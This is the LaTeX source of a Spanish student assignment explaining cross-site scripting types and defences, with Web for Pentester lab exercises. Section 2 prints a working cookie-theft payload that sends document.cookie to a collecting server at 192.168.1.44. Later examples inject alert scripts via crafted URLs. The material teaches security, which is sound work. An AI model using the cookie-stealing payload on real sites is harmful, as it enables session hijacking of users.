\documentclass[12pt,a4paper,oneside,onecolumn]{article}

\usepackage[spanish,es-noshorthands]{babel}
\usepackage{epsfig}
\usepackage[latin1]{inputenc}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
%\usepackage{mathabx}  Compila pero borra el pdf?
\usepackage{array}
\usepackage[left=1.8cm, right=1.8cm, top=2.50cm, bottom=2.5cm]{geometry}
\usepackage{hyperref}
\usepackage{color}
\usepackage{fancyhdr}
\usepackage{listings}
\usepackage{xcolor}
\usepackage[smartEllipses]{markdown}

\pagestyle{fancy}

\fancyhead{}
\fancyfoot{}

\setlength{\headsep}{0.4cm}
\setlength{\footskip}{1.6pt}
\setlength{\parindent}{0pt}
\setlength{\extrarowheight}{1.5pt}


\lhead{Proyectos II}
\rhead{Javier Orti}
\renewcommand*\headrulewidth{0.4 pt}
\lfoot{\vspace{0.45cm}XSS}
\cfoot{\vspace{0.01cm}\rule{\linewidth}{0.4pt}}
\rfoot{\vspace{0.45cm} P\'ag. \thepage}

\renewcommand{\labelitemi}{$\bullet$}
\renewcommand{\labelenumi}{\theenumi)}
\renewcommand\spanishtablename{Tabla}

\decimalpoint

\headheight 16.7pt 
\textheight 715pt 

\parskip 8pt  

\hypersetup{
	colorlinks=true,
	linkcolor=blue,
	filecolor=magenta,      
	urlcolor=cyan,
}

% Python code settings
\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
	backgroundcolor=\color{backcolour},   
	commentstyle=\color{codegreen},
	keywordstyle=\color{magenta},
	numberstyle=\tiny\color{codegray},
	stringstyle=\color{codepurple},
	basicstyle=\ttfamily\footnotesize,
	breakatwhitespace=false,         
	breaklines=true,                 
	captionpos=b,                    
	keepspaces=true,                 
	numbers=left,                    
	numbersep=5pt,                  
	showspaces=false,                
	showstringspaces=false,
	showtabs=false,                  
	tabsize=2
}

\lstset{style=mystyle}

\usepackage[shortlabels]{enumitem}
\usepackage{cancel}

\begin{document} 
    \section{}
    El XSS en p\'aginas web es en terminos resumidos an\'alogo a lo que es un SQLi en bases de datos, pero en vez de SQL con JavaScript. Consiste en inyectar c\'odigo JS en la web para hacer comandos a nuestro antojo.
    
    \newline
    Los tipos son:
    \begin{enumerate}[a)]
        \item
        \underline{Tipo I, no persistente o reflejado: } Aquel en el que el input del usuario es devuelto inmediatamente por la aplicaci\'on si asegurar los datos o almacenarlos permanentemente, y estos son devueltos en un mensaje de error, un resultado de b\'usqueda...
         \item
        \underline{Tipo II, persistente o almacenado: }
        Al contrario que el anterior, este se guarda en el server ya sea en una DB, un log...
        La v\'ictima puede luego recibe el c\'odigo malicioso inyectado del servidor.
        \item
        \underline{Tipo 0, persistente o almacenado: }
        Es aquel que basa su ataque en las vulnerabilidades del lado del cliente, ya que este ataque en principio no tiene por qu\'e llegar nunca al servidor y por tanto evitar las herramientas de detecci\'on que tenga. Se basa en hacer modificaciones en el DOM (Document Object Model), como puede ser inyectar la ejecuci\'on de una funci\'on en una url como:
        \newline
        \begin{lstlisting}[language = xml]
http://www.example.com/userdashboard.html#context=
<script>SomeFunction(somevariable)</script>.
        \end{lstlisting}
        
    \section{}
    Una cookie es un archivo normalmente de peque\~{n}o tama\~{n}o que se encuentra en el navegador del cliente que utiliza el servidor para consultar (en principio) el historial de actividad de ese cliente anteriormente en el servidor. Existen muchas maneras de robar las cookies, una de ellas por ejemplo ser\'ia colocando un servidor que las reciba e insertando c\'odigo de una imagen que tenga como source este servidor. Ejemplo:
    
    \begin{lstlisting}[language = xml]
<script>img = new Image(); img.src = "http://192.168.1.44/a.php?"+document.cookie;</script>
    \end{lstlisting}    
    
    \section{}
    Algunos de las medidas m\'as usadas para evitar el XSS son:
    \begin{enumerate}[a)]
        \item
        \underline{Aplicar Filtros en los inputs que llegan.}    
        \item
        \underline{Encodificando el output.} Que esto ya depender\'ia de utilizar bien los lenguajes html, JS, CSS y su combinaci\'on. 
        \item
        \underline{Utilizando los headers adecuados.} Estos son los del tipo Content-Type o X-Content-Type-Options
         \item
        \underline{Definiendo un Content Security Policy(CSP)}. Con esta restringes mediante normas para que s\'olo se usen aquellas que vaya a usar tu p\'agina.
    \end{enumerate}
    
    
        
    \end{enumerate}
    \section{}
    Ejemplo n\'umero 9 con Web for Pentester para ejecutar un alert:
     \begin{figure}[!h]
		\centering
		
\includegraphics[scale=0.6]{xss9.png}
		\caption{}
		\label{fig:1}
	\end{figure}
	\newline
    Escapamos con las comillas dobles e introducimos el script que queramos(en este caso alert para probar).
    \begin{lstlisting}
    http://192.168.56.103/xss/example8.php/%22%3E%3Cscript%3Ealert(%22He%20entrado%22)%3C/script%3E
    \end{lstlisting}
    
    Para el ejemplo 9, utilizaremos otro navegador como el viejo internet explorer, que tiene m\'as brechas, entre ellas la basada en el DOM, ya que navegadores m\'as modernos como chrome previenen este ataque concreto(o al menos el ejemplo a continuaci\'on.
    \begin{figure}[!h]
		\centering
		
\includegraphics[scale=0.6]{xss10.png}
		\caption{}
		\label{fig:2}
	\end{figure}
	El c\'odigo es bastante b\'asico:
	\begin{lstlisting}
    http://192.168.56.103/xss/example9.php#<script>alert("Pobre internet explorer")</script>
    \end{lstlisting}
\end{document}